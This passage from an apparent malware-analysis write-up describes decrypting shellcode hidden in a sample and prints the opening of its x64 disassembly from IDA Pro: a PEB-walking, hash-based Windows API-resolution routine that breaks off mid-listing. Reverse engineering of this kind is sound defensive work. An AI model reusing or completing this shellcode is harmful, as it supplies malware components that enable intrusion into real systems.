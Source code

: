 The script successfully extracted and decrypted the shellcode, providing us with the actual malicious payload for further analysis. The decrypted shellcode could now be loaded into IDA Pro for comprehensive reverse engineering.

### Decrypted Shellcode Analysis

Loading the decrypted payload into IDA Pro revealed a sophisticated piece of shellcode. Let's see the complete disassembly first, then break it down section by section:

```assembly
                cld
                and     rsp, 0FFFFFFFFFFFFFFF0h
                call    sub_D6
; ---------------------------------------------------------------------------
                push    r9
                push    r8
                push    rdx
                push    rcx
                push    rsi
                xor     rdx, rdx
                mov     rdx, gs:[rdx+60h]
                mov     rdx, [rdx+18h]
                mov     rdx, [rdx+20h]

loc_21:
                movzx   rcx, word ptr [rdx+4Ah]
                mov     rsi, [rdx+50h]
                xor     r9, r9

loc_2D:
                xor     rax, rax
                lodsb
                cmp     al, 61h
                jl      short loc_37
                sub     al, 20h

loc_37:
                ror     r9d, 0Dh
                add     r9d, eax
                loop    loc_2D
                push    rdx
                mov     rdx, [rdx+20h]
                push    r9
                mov     eax, [rdx+3Ch]
                add     rax, rdx
                cmp     word ptr [rax+18h], 20Bh
                jnz     loc_CB
                mov     eax, [rax+88h]
                test    rax, rax
                jz      short loc_CB
                add     rax, rdx
                mov     r8d, [rax+20h]
                mov     ecx, [rax+18h]
                add     r8, rdx
                push    rax

loc_72:
                jrcxz   loc_CA
                xor     r9, r9
                dec     rcx
                mov     esi, [r8+rcx*4]
                add     rsi, rdx

loc_81:
```